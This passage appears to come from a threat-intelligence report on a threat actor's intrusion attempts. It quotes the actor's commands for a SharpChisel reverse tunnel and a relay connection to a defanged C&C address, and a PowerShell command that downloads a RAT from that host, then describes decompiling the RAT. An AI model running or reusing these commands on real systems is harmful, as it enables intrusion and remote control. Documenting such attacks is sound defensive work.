

This was done using two separate commands:
C:\programdate\1.exe -relayserver 87.236.212[.]184:5555
C:\users\public\new.exe -relayserver 87.236.212[.]184:5555

We then see the threat actor again attempting to use SharpChisel several times using the following command:
C:\programdata\SharpChisel.exe  client 87.236.212[.]184:8080 r:8888:127.0.0.1:9999
powershell.exe C:\programdata\SharpChisel.exe client 87.236.212[.]184:8080 R:8888:127.0.0.1:9999
We conclude that a tunneling connection to the C&C server could not be established, even after attempts to do so with two different tools.

Following the unsuccessful attempt to configure a tunnel connection to their C&C server, the threat actors downloaded a remote access tool (RAT) and attempted to configure it. The following PowerShell command was used for this:
powershell.exe iwr -uri hxxp://87.236.212[.]184/out1 -outfile
 c:\users\public\out1.exe -usebasicparsing
The command downloads out1.exe and saves the file in the C:\users\public\ directory. Using a UPX unpacker, we were able to extract the contents, which consists of a Python executable. We then decompiled the python executable using pyinstxtractor.py to get all of the Python bytecode files. These are then decompiled to get the original python code using easypythondecompiler.